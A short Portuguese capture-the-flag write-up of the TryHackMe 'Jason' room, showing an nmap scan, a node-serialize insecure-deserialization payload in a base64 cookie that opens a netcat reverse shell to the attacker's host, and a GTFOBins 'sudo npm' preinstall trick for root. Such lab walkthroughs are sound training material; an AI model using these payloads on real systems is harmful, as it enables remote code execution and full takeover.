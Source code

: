 #ctf
# Jason
https://tryhackme.com/room/jason

## Reconhecimento do alvo e exploração
Realizando uma varredura de portas com nmap:

        PORT   STATE SERVICE
        22/tcp open  ssh
        80/tcp open  http

No site, ao enviar o email é adicionado um cookie em base64 que contem um json {"email":"test@email.com"}.
O site está vulneravel à deserialização insegura, com isso, basta colocar um script no valor do "email".

```js
var serialize = require('node-serialize');


x = {
email : function(){
  require('child_process').execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> 4444 >/tmp/f", function puts(error, stdout, stderr) {});
}
};

console.log("Serialized: \n" + serialize.serialize(x));

```
Convertendo a saída para base64, basta roda o codigo abaixo:

```sh
nc -lnvp 4444
curl -b "session=<base64_acima>" http://<IP>
```

## Privesc
É possível rodar "sudo -l" e ver que o __npm__ roda como superusuario, com isso basta rodar o comando tirado do GTFObins:

```sh
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i
```

GG
